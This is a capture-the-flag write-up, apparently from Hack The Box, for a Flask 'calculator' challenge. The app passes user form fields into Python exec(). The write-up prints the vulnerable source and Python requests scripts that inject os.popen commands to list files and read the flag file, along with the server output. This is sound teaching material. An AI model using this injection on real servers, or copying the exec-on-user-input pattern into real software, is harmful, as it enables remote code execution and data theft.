

aw man, aw geez, my grandpa rick is passed out from all the drinking again, where is a calculator when you need one, aw geez
When we visit the website in a browser, we see this.
There is a number that seems to change everytime we refresh the page. First thing we are going to do is look at the source.

We can see there is a hint for a /debug page where we find the source for the challenge.
from flask import Flask, Response, request, render_template, request
from random import choice, randint
from string import lowercase
from functools import wraps
app = Flask(__name__)
def calc(recipe):
global garage
garage = {}
try: exec(recipe, garage)
except: pass
def GCR(func): # Great Calculator of the observable universe and it's infinite timelines
@wraps(func)
def federation(*args, **kwargs):
ingredient = ''.join(choice(lowercase) for _ in range(10))
recipe = '%s = %s' % (ingredient, ''.join(map(str, [randint(1, 69), choice(['+', '-', '*']), randint(1,69)])))
if request.method == 'POST':
ingredient = request.form.get('ingredient', '')
recipe = '%s = %s' % (ingredient, request.form.get('measurements', ''))
calc(recipe)
if garage.get(ingredient, ''):
return render_template('index.html', calculations=garage[ingredient])
return func(*args, **kwargs)
return federation
@app.route('/', methods=['GET', 'POST'])
@GCR
def index():
return render_template('index.html')
@app.route('/debug')
def debug():
return Response(open(__file__).read(), mimetype='text/plain')
if __name__ == '__main__':
app.run('0.0.0.0', port=1337)
Here we see a very simple flask webapp. We see we can perform a GET and POST request on / endpoint and GET on /debug. When we perform a POST on / we eventually hit this part of the code.
if request.method == 'POST':
ingredient = request.form.get('ingredient', '')
recipe = '%s = %s' % (ingredient, request.form.get('measurements', ''))
In this part of the code we can influence how to recipe string is going to look like. This string is later going to be used as a parameter for method calc().
calc(recipe)
This method provides an attack vector that we are going to exploit.
def calc(recipe):
global garage
garage = {}
try: exec(recipe, garage)
except: pass
This is a very simple exploit. Here we can see, method exec() directly executes python code that we provided in recipe variable. This is going to win us a challenge.
When we visit the page we are implicitly using the GET request on /. Therefore we don’t visit the if branch with the POST but we visit this part of the code.
ingredient = ''.join(choice(lowercase) for _ in range(10))
recipe = '%s = %s' % (ingredient, ''.join(map(str, [randint(1, 69), choice(['+', '-', '*']), randint(1,69)])))
Here recipe is assembled automatically using random values. Example.
'zurkssxoqj = 38-65'
This gets sent to the calc() method. Here the exec() would look like this.
try: exec('zurkssxoqj = 38-65', garage)
This gets executed internally and we can see there is a garage parameter which is a global variable therefore accessable in the whole script. garage is a dictionary that holds all the references to variables in the executed context. In our case, it would hold an item (beside other implicit values).
{'zurkssxoqj' = -27}
Back to the federation() method.
if garage.get(ingredient, ''):
return render_template('index.html', calculations=garage[ingredient])
Here we extract the value from the ingredient variable and send it to the template to be rendered as the number we see on the screen. After the substitution the code would look like this.
if garage.get('zurkssxoqj', ''):
return render_template('index.html', calculations=garage['zurkssxoqj'])
We can send a POST request to craft our own recipe. When we do that we are accessing this part of the code.
if request.method == 'POST':
ingredient = request.form.get('ingredient', '')
recipe = '%s = %s' % (ingredient, request.form.get('measurements', ''))
From above we can see, that the webapp extracts values of variables ingredient and measurements from request body. We can try to send a POST request containing those variables in the body, and potentialy assemble our malicious recipe.
As an example we can start lightly to confirm we can control the recipe. An example POST body would look like this.
{
"ingredient": "our_var",
"measurements": "1337"
}
The recipe would look like this.
'our_var = 1337'
We are going to use python requests module to send our request.
#!/usr/bin/python3
import requests
data = {'ingredient': 'our_var', 'measurements': '1337'}
addr = 'http://<ip>:<port>'
r = requests.post(addr, data=data)
print(r.content)
In the response we see our number 1337, meaning we can successfully control the exec() statement.
<h1 style='font-size: 140px; text-shadow: 2px 2px 0 #0C3447, 5px 5px 0 #6a1b9a, 10px 10px 0 #00131E;'> 1337 </h1>
As for the exploit, we can import the os module and have RCE on the server.
#!/usr/bin/python3
import requests
data = {'ingredient': 'our_var', 'measurements': '__import__("os").popen("ls").read()'}
addr = 'http://<ip>:<port>'
r = requests.post(addr, data=data)
print(r.content)
The exec would look like this.
try: exec('our_var = __import__("os").popen("ls").read()', garage)
We are going to list the items in webapp cwd.
<h1 style='font-size: 140px; text-shadow: 2px 2px 0 #0C3447, 5px 5px 0 #6a1b9a, 10px 10px 0 #00131E;'> app.py\nflag\ntemplates\n </h1>
We see there is a file named flag which contains the challenge secret.
#!/usr/bin/python3
import requests
data = {'ingredient': 'our_var', 'measurements': '__import__("os").popen("cat flag").read()'}
addr = 'http://<ip>:<port>'
r = requests.post(addr, data=data)
print(r.content)
<h1 style='font-size: 140px; text-shadow: 2px 2px 0 #0C3447, 5px 5px 0 #6a1b9a, 10px 10px 0 #00131E;'> HTB{n3v3r_trust1ng_us3r_1nput_ag41n_1n_my_l1f3} </h1>
HTB{n3v3r_trust1ng_us3r_1nput_ag41n_1n_my_l1f3}